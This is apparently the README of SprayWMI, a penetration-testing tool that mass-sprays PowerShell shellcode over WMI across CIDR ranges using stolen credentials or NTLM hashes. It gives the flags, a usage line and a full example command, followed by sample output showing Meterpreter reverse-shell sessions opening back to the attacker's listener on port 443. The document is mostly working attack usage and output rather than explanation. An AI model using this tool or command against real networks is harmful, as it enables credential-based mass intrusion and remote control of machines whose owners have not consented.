 SprayWMI is a method for mass spraying Unicorn PowerShell injection to CIDR notations.

Written by: David Kennedy (@HackingDave) @TrustedSec
Special thanks to: Justin Elze and Larry Spohn @TrustedSec

Initial blog post: https://www.trustedsec.com/june-2015/no_psexec_needed/
If you have trouble with this on 64-bit, try:
dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flags and descriptions:

domain                 Domain you are attacking. If its local, just specify workgroup.
username               Username to authenticate on the remote Windows system.
password               Password or password hash LM:NTLM to use on the remote Windows system.
CIDR range or file     Specify a single IP, CIDR range (10.0.1.1/24) or multiple CIDRs: 10.0.1.1/24,10.0.2.1/24. 
                          You can also specify a file (ex: ips.txt) that contains a single IP addresses on each line. 
payload                Metasploit payload, example: windows/meterpreter/reverse_tcp
LHOST                  Reverse shell IP address.
LPORT                  Reverse shell listening port.
optional: NO           Specify no if you do not want to create a listener. This is useful if you already have a listener 
                          established. If you do not specify a value, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password> <CIDRrange or file> <payload> <LHOST> <LPORT> <optional: no>


Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 10.0.90.1/24,10.0.0.1/24,10.0.59.1/24,10.0.96.1/24,10.0.1.1/24 windows/meterpreter/reverse_tcp 10.0.47.24 443

[*] Generating shellcode through Unicorn, this could take a few seconds.

[*] Launching the listener in the background.

[*] Waiting for the listener to start first before we continue.

[*] Be patient, Metaploit takes a little bit to start.

[*] Sweeping targets for open TCP port 135 first, then moving through. Be patient.

[*] Launching WMI spray against IP: 10.0.90.1 - You should have a shell in the background. Once finished, a shell will spawn.

<snip>

[*] Launching WMI spray against IP: 10.0.96.20 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.21 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.22 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.23 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.96.242 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Launching WMI spray against IP: 10.0.1.13 - You should have a shell in the background. Once finished, a shell will spawn.

[*] Spraying is still happening in the background, shells should arrive as they complete.

[*] Interacting with Metasploit.

msf exploit(handler) > 

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.174

[*] Meterpreter session 1 opened (10.0.47.24:443 -> 10.0.90.174:49868) at 2015-10-13 04:33:55 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.203

[*] Meterpreter session 2 opened (10.0.47.24:443 -> 10.0.90.203:51333) at 2015-10-13 04:33:59 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.184

[*] Meterpreter session 3 opened (10.0.47.24:443 -> 10.0.90.184:61218) at 2015-10-13 04:34:02 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.204

[*] Meterpreter session 4 opened (10.0.47.24:443 -> 10.0.90.204:54219) at 2015-10-13 04:34:06 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.175

[*] Meterpreter session 5 opened (10.0.47.24:443 -> 10.0.90.175:54210) at 2015-10-13 04:34:10 -0400

<snip>

[*] Meterpreter session 13 opened (10.0.47.24:443 -> 10.0.90.248:53657) at 2015-10-13 04:34:31 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 10.0.90.39

[*] Meterpreter session 14 opened (10.0.47.24:443 -> 10.0.90.39:60451) at 2015-10-13 04:34:35 -0400

[*] Encoded stage with x86/shikata_ga_nai
